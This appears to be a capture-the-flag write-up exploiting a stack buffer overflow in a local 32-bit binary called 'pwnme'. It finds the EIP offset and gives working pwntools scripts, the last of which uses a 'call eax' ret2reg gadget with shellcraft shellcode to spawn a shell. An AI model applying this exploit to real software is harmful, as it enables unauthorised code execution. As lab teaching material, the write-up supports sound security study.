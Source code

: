 ![](https://i.imgur.com/iSgvVoY.png)

Our offset is 0x6361616a or 236 in decimal.

Confirm we're in the eip with 4*B characters, eip should read ```0x42424242```

```python
from pwn import *

context(os='linux', arch='i386')
context.log_level= 'debug'

TARGET = './pwnme'
OFFSET = 236

proc = process(TARGET)

pause()

#stage 1
# payload = cyclic(1000)

#stage2
payload = b'A'*OFFSET
payload += b'BBBB'

proc.writeline(payload)
```

We have control of eip!

![](https://i.imgur.com/VomVGLO.png)

Using automagic ELF to add a ret2reg, bypassing ASLR. Then adding shellcode to payload, this should give us a shell through the binary now.

```python
from pwn import *

context(os='linux', arch='i386')
context.log_level= 'debug'

TARGET = './pwnme'
OFFSET = 236

shell_code = shellcraft.sh()

proc = process(TARGET)

#stage 1
# payload = cyclic(1000)

#stage2
# payload = b'A'*OFFSET
# payload += b'BBBB'

#stage 3
elf = ELF(TARGET)
CALL_EAX = next(elf.search(asm("call eax")))

payload = asm(shell_code)
payload += b'\x90'*(OFFSET-len(payload))
payload += p32(CALL_EAX)

proc.writeline(payload)

```